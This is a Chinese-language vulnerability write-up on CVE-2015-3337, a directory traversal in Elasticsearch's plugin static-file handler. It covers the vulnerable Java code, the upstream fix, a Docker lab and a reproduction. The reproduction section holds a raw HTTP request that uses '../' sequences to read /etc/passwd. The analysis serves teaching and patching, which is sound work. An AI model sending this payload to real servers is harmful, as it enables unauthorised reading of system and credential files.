





# CVE-2015-3337 CWE-22 ElasticSearch 目录穿越

## 漏洞背景

- **ElasticSearch ：**一个开源的分布式 RESTful 搜索和分析引擎、可扩展的数据存储和向量数据库，能够解决不断涌现出的各种用例。能够存储大量数据，支持实时搜索、多租户、分布式索引和存储。采用文档导向型存储，数据以 JSON 文档形式存在，字段灵活。其在全文检索方面表现出色，能快速处理复杂搜索请求，常用于日志分析、网站搜索等场景，还可通过添加节点方便扩展集群规模，不过在事务处理完整性和数据更新一致性等方面相对传统数据库稍弱。
- **ElasticSearch 插件：**提供了扩展和定制其功能的能力，允许用户根据特定需求增强其功能。这些插件可以添加新的分析工具、支持额外的数据处理能力、提供监控和管理界面（如 elasticsearch-head），以及集成其他服务。它们易于安装和管理，使得 Elasticsearch 能够灵活适应各种应用场景，如日志分析、实时搜索和数据分析等。用户可以根据需要选择合适的插件，以优化和扩展其 Elasticsearch 集群的功能。
- **elasticsearch-head 插件：**一个基于 Web 的界面工具，它可以方便地管理和监控 Elasticsearch 集群。通过该插件，用户能够在浏览器中直观地查看集群状态、节点信息、索引列表以及文档内容等。此外，它还支持执行搜索查询、管理索引生命周期以及对集群进行基本的维护操作。
- **CWE-22（Path Traversal）：**即路径遍历，是一种安全漏洞，它允许攻击者通过操纵文件路径，访问或操作受限目录之外的文件或目录。这种漏洞通常发生在Web应用程序或系统未能正确验证用户输入的文件路径时。例如，攻击者可以利用“../”这样的特殊字符组合，导航到父目录或其他未经授权的区域，从而读取敏感文件、修改或删除数据，甚至执行恶意操作。

## 漏洞原理

由于 ElasticSearch 在静态资源访问中未对路径进行规范化和安全验证，当启用站点插件时，远程攻击者可以利用该漏洞通过不明向量读取任意文件，从而允许攻击者构造目录穿越路径，读取系统任意文件。

## 漏洞定位

分析 ElasticSearch 1.4.4 源码

在 src\main\java\org\elasticsearch\http\HttpServer.java 文件，HttpServer 类负责处理 Elasticsearch 的HTTP请求。其中第 133 行，handlePluginSite 方法用于处理与插件相关的 HTTP 请求，特别是那些以`/_plugin/`开头的请求路径。它负责检查请求的合法性，并为插件提供静态文件服务。

其中第 177 行，检查请求的文件是否存在并且不是隐藏文件，但是这里并**没有检查 `file` 是否仍在 `siteFile`（插件 `_site` 根目录）之下**。

而在第 194 行，**只使用字符串匹配**来判断文件路径是否在插件目录中，**不是基于真实路径对象**，容易被软链接、符号路径等手法绕过。

由于没有限制路径跳脱（path traversal），这会导致任意文件读取，如果 `sitePath` 是 `../../../../../etc/passwd`，拼接后就变成了指向系统敏感文件的路径。

```java
void handlePluginSite(HttpRequest request, HttpChannel channel) {
        // ...
        String path = request.rawPath().substring("/_plugin/".length());
        int i1 = path.indexOf('/');
        String pluginName;
        String sitePath;
        if (i1 == -1) {
            pluginName = path;
            sitePath = null;
            // If a trailing / is missing, we redirect to the right page #2654
            String redirectUrl = request.rawPath() + "/";
            BytesRestResponse restResponse = new BytesRestResponse(RestStatus.MOVED_PERMANENTLY, "text/html", "<head><meta http-equiv=\"refresh\" content=\"0; URL=" + redirectUrl + "></head>");
            restResponse.addHeader("Location", redirectUrl);
            channel.sendResponse(restResponse);
            return;
        } else {
            pluginName = path.substring(0, i1);
            sitePath = path.substring(i1 + 1);
        }
        if (sitePath.length() == 0) {
            sitePath = "/index.html";
        }
        // Convert file separators.
        sitePath = sitePath.replace('/', File.separatorChar);
        // this is a plugin provided site, serve it as static files from the plugin location
// ** 175 行 *********************************************************************
        File siteFile = new File(new File(environment.pluginsFile(), pluginName), "_site");    
        File file = new File(siteFile, sitePath);
// ** 177 行 *********** 检查请求的文件是否存在并且不是隐藏文件 ****************************
        if (!file.exists() || file.isHidden()) {
            channel.sendResponse(new BytesRestResponse(NOT_FOUND));
            return;
        }
        if (!file.isFile()) {
            // If it's not a dir, we send a 403
            if (!file.isDirectory()) {
                channel.sendResponse(new BytesRestResponse(FORBIDDEN));
                return;
            }
            // We don't serve dir but if index.html exists in dir we should serve it
            file = new File(file, "index.html");
            if (!file.exists() || file.isHidden() || !file.isFile()) {
                channel.sendResponse(new BytesRestResponse(FORBIDDEN));
                return;
            }
        }
// ** 194 行 ********* 使用字符串匹配来判断文件路径是否在插件目录中 ************************
        if (!file.getAbsolutePath().startsWith(siteFile.getAbsolutePath())) {
            channel.sendResponse(new BytesRestResponse(FORBIDDEN));
            return;
        }
        try {
            byte[] data = Streams.copyToByteArray(file);
            channel.sendResponse(new BytesRestResponse(OK, guessMimeType(sitePath), data));
        } catch (IOException e) {
            channel.sendResponse(new BytesRestResponse(INTERNAL_SERVER_ERROR));
        }
    }
```

## 漏洞修复

在第 177 行增加 !file.getAbsoluteFile().toPath().normalize().startsWith(siteFile.getAbsoluteFile().toPath()) 的判断逻辑，如果目标文件在 `_site` 目录之外（通过跳跃符号或符号链接等方式），就直接拒绝访问。删除第 194 的旧的检验逻辑。

file.getAbsoluteFile().toPath().normalize() 用于将路径转为绝对路径，并进行规范化处理，能够移除 ../ 等跳跃符号。.startsWith(siteFile.getAbsoluteFile().toPath()) 检查目标路径是否真的在插件 _site 目录下，防止跳出目录（路径穿越攻击）。

```java
File file = new File(siteFile, sitePath);
if (!file.exists() || file.isHidden() || !file.getAbsoluteFile().toPath().normalize().startsWith(siteFile.getAbsoluteFile().toPath())) {
    channel.sendResponse(new BytesRestResponse(NOT_FOUND));
    return;
}
```

旧逻辑是“基于字符串的路径判断”，容易被绕过；新逻辑是“基于真实文件路径的规范化判断”，更安全。

## 影响范围

影响版本：Elasticsearch 1.4.x ≤ 1.4.4 和 1.5.x ≤ 1.5.1

影响组件：Elasticsearch 插件服务 （_plugin，如test，kopf，HQ，marvel，bigdesk，head）

## 环境搭建

1. 启动 Docker 环境，ElasticSearch 版本为1.4.4

   

2. Docker 环境中已创建一个索引为 init_index、类型为 user、文档 ID 为 1 的文档，并设置字段 name 为 init_user。使用以下命令查看文档的信息。

   ```bash
   curl -XGET 'http://127.0.0.1:9200/init_index/user/1?pretty'
   ```

   

3. Docker 环境默认安装了一个插件：elasticsearch-head：https://github.com/mobz/elasticsearch-head。访问 http://127.0.0.1:9200/_cat/plugins 可以查看所有已安装的插件。

   

4. 访问 Elasticsearch Head 插件的 Web 界面：http://127.0.0.1:9200/_plugin/head/，该插件提供了 elasticsearch 的前端页面。

   

## 漏洞复现

**不能直接在浏览器中访问。**使用 BurpSuit 发送 payload 数据包，尝试目录穿越范围 /etc/passwd 文件。

```http
GET /_plugin/head/../../../../../../../../../etc/passwd HTTP/1.1
Host: 127.0.0.1:9200
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
```

返回的响应包中可以看到 /etc/passwd 文件的内容。



## PoC分析

执行流程：用户输入 → 遍历插件 → 检测插件存在性 → 利用目录穿越读取文件 → 输出结果

输入目标 IP 和端口，以及想要访问的目标文件路径，即可成功打印出目标文件

```bash
python CVE-2015-3337-PoC.py
```



## 参考链接

[NVD - CVE-2015-3337](https://nvd.nist.gov/vuln/detail/CVE-2015-3337)

[漏洞复现----9、Elasticsearch插件目录穿越漏洞（CVE-2015-3337）_elasticsearch 目录遍历 (cve-2015-3337)-CSDN博客](https://blog.csdn.net/sycamorelg/article/details/117740853)

[HTTP: Ensure url path expansion only works inside of plugins · elastic/elasticsearch@55b890f](https://github.com/elastic/elasticsearch/commit/55b890f9bb83470094b07f36bdf922e28d2596b5)
